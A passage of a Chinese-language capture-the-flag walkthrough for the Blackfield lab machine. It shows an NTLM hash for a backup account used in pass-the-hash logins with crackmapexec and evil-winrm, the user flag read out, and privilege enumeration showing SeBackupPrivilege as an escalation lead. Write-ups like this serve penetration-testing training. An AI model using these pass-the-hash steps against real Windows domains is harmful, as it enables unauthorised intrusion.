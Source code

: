 得到一组凭证 `svc_backup:9658d1d1dcd9250115e2205d9f48400d`



# svc_backup用户

验证 smb

```bash
└─# crackmapexec smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d 
```

验证 winrm

```bash
└─# crackmapexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```



winrm 登录

```powershell
└─# evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

*Evil-WinRM* PS C:\Users\svc_backup\desktop> type user.txt
3920bb317a0bef51027e2852be64b543
```



# svc_backup –> administrator

拿到一个用户时，要看它属于哪些组或者有哪些权限，看能不能利用，不清楚的话就谷歌边查边看

```powershell
*Evil-WinRM* PS C:\Users\svc_backup\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc_backup\desktop> net user svc_backup
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
```